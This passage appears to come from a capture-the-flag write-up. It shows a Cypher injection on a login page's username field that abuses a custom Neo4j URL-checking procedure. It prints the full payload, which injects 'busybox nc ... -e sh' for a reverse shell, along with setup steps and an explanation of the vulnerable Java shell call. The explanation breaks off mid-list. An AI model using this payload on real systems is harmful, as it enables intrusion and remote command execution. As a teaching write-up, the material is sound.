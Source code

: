 
# EXPLOITATION
---

After a while reading the article, I could craft a payload that gives us a reverse shell right to our machine:

```
a' return h.value as a 
UNION 
CALL custom.getUrlStatusCode("http://IP:ServerPort;busybox nc IP NC PORT -e sh;#") 
YIELD statusCode AS a 
RETURN a;//
```


We need to do the following:

1. Set up a server using python at any port, we do this to create a legitimate URL which the server's gonna read.
2. Set up a NC listener at a desired port.
3. Use the payload at the `username` section on the login page.
4. Get our reverse shell.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250313161304.png)

There we go, but why does this work?

### **How It Works**

#### **1. Cypher Injection (`a' return h.value as a UNION ...`)**

- **Goal**: Break out of the original Cypher query and inject a malicious query.
    
- **Mechanism**:

    - The `a'` closes a string parameter in the original query
        
    - The `UNION` clause merges the original query’s results with the attacker’s injected query. Both must return the same columns (`a` here).

#### **2. Exploiting `custom.getUrlStatusCode` (Command Injection)**

The `CALL` statement invokes the vulnerable Java procedure `custom.getUrlStatusCode`, which is designed to check HTTP status codes but is exploited here to run arbitrary commands:

```java
String[] command = { "/bin/sh", "-c", "curl ... " + url };
Process process = Runtime.getRuntime().exec(command);
```

- **Malicious URL**: `http://IP:SERVERPORT;busybox nc IP NC PORT -e sh;#`
    
    - `;`: Terminates the `curl` command and starts a new shell command.
        